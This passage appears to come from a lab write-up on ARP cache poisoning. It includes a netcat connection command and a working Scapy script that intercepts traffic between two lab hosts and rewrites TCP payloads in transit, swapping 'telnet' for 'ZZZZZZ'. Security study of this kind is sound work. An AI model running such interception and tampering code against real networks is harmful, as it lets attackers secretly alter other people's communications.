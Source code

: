 ```bash
nc 10.9.0.6 9090
```
> This is the connector: Host A.

3. Poison the cache entries of A and B. Same as the telnet attack.
4. Write this script that replaces the word `telnet` with `ZZZZZ`. Has the same functionality as the telnet script.
```python
from scapy.all import *

A_IP = "10.9.0.5"
B_IP = "10.9.0.6"
M_IP = "10.9.0.105"

A_MAC = "02:42:0a:09:00:05"
B_MAC = "02:42:0a:09:00:06"
M_MAC = "02:42:0a:09:00:69"

def spoof_pkt(pkt):
    # listen for packets. If a packet is going from A to B, then spoof.
    if pkt[IP].src == A_IP and pkt[IP].dst == B_IP and pkt[Ether].src != M_MAC:
        # create a new packet but remove checksums and TCP payload.
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)
        
        if pkt[TCP].payload:
            data = pkt[TCP].payload.load
            # replace every character with a Z.
            newdata = data.replace(b"telnet", b"ZZZZZZ")
            send(newpkt/newdata)
        else:
            send(newpkt)
    # if a packet is going from B to A, then send it to A.
    elif pkt[IP].src == B_IP and pkt[IP].dst == A_IP and pkt[Ether].src == M_MAC:
        
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        send(newpkt)

# captures only packets that are not sent by the attacker.
f = f"ip host {A_IP} or ip host {B_IP}"
pkt = sniff(iface="eth0", filter=f, prn=spoof_pkt)
```

5. Executing this code, we see that it works:

![](./screenshots/arp-10.png)
